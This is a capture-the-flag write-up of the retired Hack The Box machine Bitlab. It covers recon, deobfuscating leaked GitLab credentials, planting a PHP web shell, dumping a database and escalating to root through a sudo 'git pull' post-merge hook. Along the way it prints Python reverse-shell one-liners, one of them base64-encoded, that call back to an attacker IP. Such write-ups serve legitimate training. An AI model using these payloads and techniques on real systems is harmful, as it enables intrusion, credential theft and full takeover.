









 

## Summary

Bitlab just retired today. I had lots of fun solving it and I certainly enjoyed using an unintended exploit to get root. Its IP address is ‘10.10.10.114’ and I added it to ‘/etc/hosts’ as ‘bitlab.htb’. Without further ado, let’s jump right in!

## Scanning & Initial Web Enum

A light nmap scan provided me with enough information to get started:


root@fury-battlestation:~/htb/blog/bitlab# nmap -sV -O bitlab.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-26 10:31 EST
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.13 seconds
root@fury-battlestation:~/htb/blog/bitlab#



After seeing the results, I opened a browser and accessed the machine on port 80:

I also started dirb, which discovered some accesible URIs:


root@fury-battlestation:~/htb/blog/bitlab# dirb http://bitlab.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 26 11:52:21 2019
URL_BASE: http://bitlab.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://bitlab.htb/ ----
+ http://bitlab.htb/explore (CODE:200|SIZE:13669)                              
+ http://bitlab.htb/favicon.ico (CODE:301|SIZE:167)                            
+ http://bitlab.htb/groups (CODE:302|SIZE:98)                                  
==> DIRECTORY: http://bitlab.htb/help/



The ‘help’ directory had directory listing enabled and only contained one file named ‘bookmarks.html’:

The file contained some links:

## Deobfuscating bookmarks.html

The last link, ‘Gitlab Login’ didn’t work, so I downloaded the page and inspected the source. The owner probably obfuscated the link:


<DT><A HREF="javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()" ADD_DATE="1554932142">Gitlab Login</A>
    </DL>



The first step was to isolate the JavaScript code, HTML decode and prettify it using an online tool (I used [this one](https://codebeautify.org/html-decode-string) and [this one](https://www.freeformatter.com/javascript-beautifier.html)):


(function () {
	var_0x4b18 = ["\x76\x61\x6C\x75\x65", "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64", "\x63\x6C\x61\x76\x65", "\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64", "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];
	document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
	document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()



After that, I renamed the array ‘arr’ and converted the \x chars to ASCII (using python’s print() function):


(function () {
	var arr = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
	document[arr[2]](arr[1])[arr[0]] = arr[3];
	document[arr[2]](arr[4])[arr[0]] = arr[5];
})()



As soon as I finished doing that, I completely removed arr by replacing arr[i] with its string value:


(function () {
	document["getElementById"]("user_login")["value"] = "clave";
	document["getElementById"]("user_password")["value"] = "11des0081x";
})()



Most of my readers will probably understand that code, but let’s finish deobfuscating it anyway:


document.getElementById("user_login").value = "clave";
document.getElementById("user_password").value = "11des0081x";



I tried using clave/11des0081x to log in to Gitlab and it worked:

## Shell as www-data

After some playing around, I discovered that the ‘Profile’ repository had AutoDevOps enabled, meaning that the repository would be synced with bitlab.htb/profile/ (which can be accessed by clicking on your avatar and selecting ‘settings’). I tried to create a .php file that would get me a shell. The first step was to navigate to the repo and select ‘New File’:

After clicking ‘Commit changes’ ans ‘Submit merge request’, I tried accessing yakuhito.php, but it didn’t work. The reason was simple: I also needed to merge the changes. I did that by simply clicking the green ‘Merge’ button on the page that I was redirected to:

After that, I tried running a simple command to test if the server runs PHP code:

I wanted to upgrade to an interactive shell, so I used [shellgenerator](https://shellgenerator.github.io/) to generate a command that used python to start a reverse shell:


http://bitlab.htb/profile/yakuhito.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.153%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27




root@fury-battlestation:~/htb/blog/bitlab# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.153] from (UNKNOWN) [10.10.10.114] 34310
/bin/sh: 0: can;t access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bitlab:/var/www/html/profile$



## Getting user.txt

After looking around for a bit, I found an interesting snippet on Gitlab:

I made a simple PHP script that dumped the ‘profiles’ database using the credentials found in the above snippet:


www-data@bitlab:/var/www/html/profile$ mkdir /tmp/yakuhito
mkdir /tmp/yakuhito
www-data@bitlab:/var/www/html/profile$ cd /tmp/yakuhito
cd /tmp/yakuhito
www-data@bitlab:/tmp/yakuhito$ echo PD9waHAKJGRiX2Nvbm5lY3Rpb24gPSBwZ19jb25uZWN0KCJob3N0PWxvY2FsaG9zdCBkYm5hbWU9cHJvZmlsZXMgdXNlcj1wcm9maWxlcyBwYXNzd29yZD1wcm9maWxlcyIpOwokcmVzdWx0ID0gcGdfcXVlcnkoJGRiX2Nvbm5lY3Rpb24sICJTRUxFQ1QgKiBGUk9NIHByb2ZpbGVzIik7CmVjaG8gdmFyX2R1bXAocGdfZmV0Y2hfYWxsKCRyZXN1bHQpKTsKcGdfY2xvc2UoJGRiX2Nvbm5lY3Rpb24pOwo/Pgo= | base64 -d > a.php
<2UoJGRiX2Nvbm5lY3Rpb24pOwo/Pgo= | base64 -d > a.php
www-data@bitlab:/tmp/yakuhito$ cat a.php
cat a.php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
echo var_dump(pg_fetch_all($result));
pg_close($db_connection);
?>
www-data@bitlab:/tmp/yakuhito$ php a.php
php a.php
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
www-data@bitlab:/tmp/yakuhito$



The base64 sctring decodes to ‘ssh-str0ng-p@ss’, however, the password for ‘clave’ is the encoded string (‘c3NoLXN0cjBuZy1wQHNz==’):


root@fury-battlestation:~/htb/blog/bitlab# ssh clave@bitlab.htb
clave@bitlab.htb;s password: 
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ wc -c ~/user.txt
33 /home/clave/user.txt
clave@bitlab:~$



The user proof starts with ‘1e’ 😉

## Privesc – The Intended Method

Once I logged in as ‘clave’, I listed the contents of the home directory and saw a Windows executable:


clave@bitlab:~$ ls -lah
total 44K
drwxr-xr-x 4 clave clave 4.0K Aug  8 14:40 .
drwxr-xr-x 3 root  root  4.0K Feb 28  2019 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave 3.7K Feb 28  2019 .bashrc
drwx------ 2 clave clave 4.0K Aug  8 14:40 .cache
drwx------ 3 clave clave 4.0K Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave  807 Feb 28  2019 .profile
-r-------- 1 clave clave  14K Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave   33 Feb 28  2019 user.txt
clave@bitlab:~$ file RemoteConnection.exe 
RemoteConnection.exe: PE32 executable (console) Intel 80386, for MS Windows
clave@bitlab:~$



The intended solution was probably to reverse engineer this executable and get SSH creds for root, however, I suck at reversing, so I used the next method.

## Privesc – The Unintended Method

After enumerating as www-data for a bit, I dicovered that the user was able to run ‘git pull’ with root privileges:


www-data@bitlab:/tmp/yakuhito$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/tmp/yakuhito$



I searched the internet for way to abuse this and found an interesting thread about [executing commands automatically after running git pull](https://stackoverflow.com/questions/5623208/how-to-execute-a-command-right-after-a-fetch-or-pull-command-in-git). Basically, I had to use git hooks, which are just files that get executed after git finishes specific actions. First, I cloned the profile repository and created the hook:


www-data@bitlab:/tmp/yakuhito$ cp -r /var/www/html/profile ./repo
cp -r /var/www/html/profile ./repo
www-data@bitlab:/tmp/yakuhito$ echo "echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTUuMTUzIiw0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycK | base64 -d | bash" > repo/.git/hooks/post-merge
www-data@bitlab:/tmp/yakuhito$ chmod 777 repo/.git/hooks/post-merge
chmod 777 repo/.git/hooks/post-merge
www-data@bitlab:/tmp/yakuhito$



The repository was owned by root, so I had to make a local copy in order to create the ‘post-merge’ file in the ‘.git/hooks’ directory. Before executing git pull, I also created a new file and approved the merge request, so the local repository would have to be updated. 


www-data@bitlab:/tmp/yakuhito/repo$ sudo git pull
sudo git pull
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 4), reused 0 (delta 0)
Unpacking objects: 100% (7/7), done.
From ssh://localhost:3022/root/profile
   454c4b0..fd92099  master      -> origin/master
 * [new branch]      patch-5     -> origin/patch-5
   d9a2aca..95ccb2b  test-deploy -> origin/test-deploy
Updating 454c4b0..fd92099
Fast-forward
 lkwkemf | 1 +
 1 file changed, 1 insertion(+)
 create mode 100644 lkwkemf



The shell hung and a revers shell connected on port 443:


root@fury-battlestation:~/htb/blog/bitlab# nc -nvlp 444
listening on [any] 444 ...
connect to [10.10.15.153] from (UNKNOWN) [10.10.10.114] 38932
# whoami
root
# wc -c /root/root.txt
33 /root/root.txt



The first 2 characters of the root proof are ‘8d’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

